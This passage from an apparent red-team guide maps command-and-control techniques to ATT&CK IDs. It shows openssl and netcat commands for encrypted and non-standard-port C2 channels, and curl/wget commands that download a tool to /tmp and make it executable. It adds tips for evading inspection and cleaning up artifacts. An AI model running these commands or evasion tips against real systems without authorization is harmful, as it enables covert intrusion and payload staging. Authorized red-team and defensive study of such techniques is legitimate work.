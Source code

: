 This involves using encrypted communications to hide command and control traffic.

**OpenSSL for Custom Encryption**:
```bash
# Create listening server with SSL/TLS
openssl s_server -key server.key -cert server.crt -accept 443 -quiet

# Connect from client
openssl s_client -connect 192.168.1.100:443 -quiet
```

**Specific ATT&CK Mapping**:
- Custom encrypted channel implements T1573
- Encryption prevents content inspection

**Red Team Approach**:
- Use standard ports for encrypted traffic (443, 8443)
- Implement certificate pinning to avoid interception
- Consider traffic shaping to match legitimate patterns

### Ingress Tool Transfer (T1105)

This involves transferring tools to the target system for execution.

**Tool Transfer Methods**:
```bash
# Using curl
curl -o /tmp/tool.bin http://192.168.1.100/tool.bin
chmod +x /tmp/tool.bin

# Using wget
wget -O /tmp/tool.bin http://192.168.1.100/tool.bin
chmod +x /tmp/tool.bin

# Using SSH
scp tool.bin user@192.168.1.110:/tmp/
```

**Specific ATT&CK Mapping**:
- Tool transfer implements T1105
- Multiple transfer methods provide operational flexibility

**Operational Security**:
- Consider encoding or encrypting tools before transfer
- Transfer to locations with appropriate permissions
- Clean up transfer artifacts after execution

### Non-Standard Port (T1571)

This involves using uncommon ports for command and control to evade filtering.

**Custom Port Usage**:
```bash
# Set up listener on non-standard port
nc -lvnp 58671

# Connect from client
nc 192.168.1.100 58671
```
